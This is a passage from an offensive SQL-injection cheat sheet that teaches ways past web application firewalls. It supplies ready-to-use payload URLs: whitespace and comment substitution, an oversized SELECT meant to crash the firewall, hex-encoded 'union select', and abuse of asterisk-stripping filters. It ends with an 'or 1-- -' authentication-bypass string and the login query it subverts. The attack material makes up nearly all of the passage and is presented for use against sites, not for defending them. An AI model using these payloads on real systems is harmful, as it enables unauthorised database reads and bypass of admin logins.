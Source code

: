     Forbidden: http://victim.com/main/news/id/1/**/
    |
    |/**/lpad(first_name,7,1).html
    Bypassed : http://victim.com/main/news/id/1%0b
    |
    |%0blpad(first_name,7,1).html

## Advanced Methods

Crash Firewall via doing Buffer Over Flow.

1\) Buffer Overflow / Firewall Crash: Many Firewalls are developed in
C/C++ and we can Crash them using Buffer Overflow.

```
    http://www.site.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 “A”)..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4….

    You can test if the WAF can be crashed by typing:
    ?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4….

    If you get a 500, you can exploit it using the Buffer Overflow Method.
```

2\) Replace Characters with their HEX Values: We can replace some
characters with their HEX (URL-Encoded) Values.

    Example:
        http://www.site.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4….
        (which means “union select”)

3\) Misc Exploitable Functions: Many firewalls try to offer more
Protection by adding Prototype or Strange Functions\! (Which, of course,
we can exploit\!):

    Example:
        This firewall below replaces “*” (asterisks) with Whitespaces! What we can do is this:
        http://www.site.com/index.php?page_id=-15+uni*on+sel*ect+1,2,3,4…
        (If the Firewall removes the “*”, the result will be: 15+union+select….)
        So, if you find such a silly function, you can exploit it, in this way.

## Auth Bypass

If we need to bypass some admin panels, and we do that using or 1=1.

    Code:
    or 1-- -' or 1 or '1"or 1 or"

SELECT \* FROM login WHERE id=1 or 1-- -' or 1 or '1"or 1 or" AND
username='' AND password='' the "or 1-- -" gets active, make the
condition true and ignores the rest of the query. now lets check regular
string-
